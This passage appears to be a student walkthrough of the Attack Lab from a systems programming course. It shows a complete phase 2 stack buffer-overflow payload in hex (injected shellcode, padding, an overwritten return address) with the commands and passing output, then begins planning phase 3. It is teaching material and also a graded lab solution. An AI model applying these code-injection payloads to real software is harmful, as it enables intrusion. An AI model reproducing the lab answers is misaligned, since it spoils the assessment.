 0x55612538 is the address we want, now create a text file named phase2.txt, remember that the bytes for rsp and touch2 go in reverse. 

phase2.txt
``` 
48 c7 c7 61 d0 7f 11 c3
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
38 25 61 55 00 00 00 00
8f 19 40 00 00 00 00 00
```

tbe first row sets your cookie
the zeroe's are padding to make it 56 bytes
second to last line is address of register %rsp
last line is address of touch2 function

now we run it through hex2raw, using the following commands

linux> quit
linux> y
linux> ./hex2raw < phase2.txt > 2018080106.ctarget.l2
linux> ./ctarget -q -i 2018080106.ctargetl2

you shoud get the following result

Cookie: 0x117fd061
Touch2!: You called touch2(0x117fd061)
Valid solution for level 2 with target ctarget
PASS: Would have posted the following:
        user id NoOne
        course  15213-f15
        lab     attacklab
        result  2018080106:PASS:0xffffffff:ctarget:2:48 C7 C7 61 D0 7F 11 C3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 38 25 61 55 00 00 00 00 8F 19 40 00 00 00 00 00

## Phase 3
Kinda similar to Phase 2, also involves a code injection attack, but passing a string as an argument. The passed paramter $rdi should be changed from a number to a pointer, and the character representation of the cookie should be input. Note that the function hexmatch and strncmp may fill the stack with other data, overwriting it, so we have to be careful where we store it.

Chose to put cookie string at the end to avoid problem of data being overwritten.
total bytes before the cookie are "buffer + 8 bytes for return address of rsp + 8 bytes for touch3".

0x38 + 8 + 8 = 0x48 (72 Decimal)
grab address for rsp from phase 2: 0x55612538
add 0x48
equals 0x55612580, now we need the assembly code, same steps generating the byte representation, lets put it in phase3.s
